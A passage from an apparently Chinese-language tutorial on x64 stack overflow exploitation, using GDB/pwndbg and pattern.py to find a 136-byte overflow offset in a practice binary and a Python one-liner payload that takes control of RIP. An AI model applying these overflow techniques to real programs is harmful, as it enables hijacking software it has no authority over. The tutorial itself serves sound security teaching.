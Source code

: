 奇怪的事情发生了，`PC指针`并没有指向类似于`0x41414141`那样地址，而是停在了`vulnerable_function()`函数中。这是为什么呢？原因就是我们之前提到过的程序使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。但是，虽然PC不能跳转到那个地址，我们依然可以通过栈来计算出溢出点。因为`ret相当于“pop rip”`指令，所以我们只要看一下`栈顶的数值`就能知道PC跳转的地址了。其实上面已经可以看到了，这就是pwndbg的好处。

``` bash
pwndbg> x/gx $rsp
0x7fffffffdcd8:	0x3765413665413565
```

在GDB里，x是查看内存的指令，随后的gx代表数值用64位16进制显示。随后我们就可以用pattern.py来计算溢出点。

``` bash
$ python pattern.py offset 0x3765413665413565
hex pattern decoded as: e5Ae6Ae7
136
```

可以看到`溢出点为136字节`。我们再构造一次payload，并且跳转到一个`小于0x00007fffffffffff`的地址，看看这次能否控制pc的指针。

``` bash
$ python -c 'print "A"*136+"ABCDEF\x00\x00"' > payload
$ cat payload 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEF
$ gdb level3 
pwndbg> r < payload 
Starting program: /home/buffer/桌面/practice/ROP_x64/0x01/level3 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.

Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000464544434241 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────────────────
*RAX  0x91
 RBX  0x0
*RCX  0x7ffff7b04260 (__read_nocancel+7) ◂— cmp    rax, -0xfff
*RDX  0x200
 RDI  0x0
*RSI  0x7fffffffdc50 ◂— 0x4141414141414141 ('AAAAAAAA')
*R8   0x400690 (__libc_csu_fini) ◂— ret    
*R9   0x7ffff7de7ab0 (_dl_fini) ◂— push   rbp
*R10  0x37b
*R11  0x246
*R12  0x4004c0 (_start) ◂— xor    ebp, ebp
*R13  0x7fffffffddd0 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x4141414141414141 ('AAAAAAAA')
*RSP  0x7fffffffdce0 —▸ 0x7fffffffdd0a ◂— 0x7fffffff
*RIP  0x464544434241
────────────────────────────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────────────────────────
Invalid address 0x464544434241

```
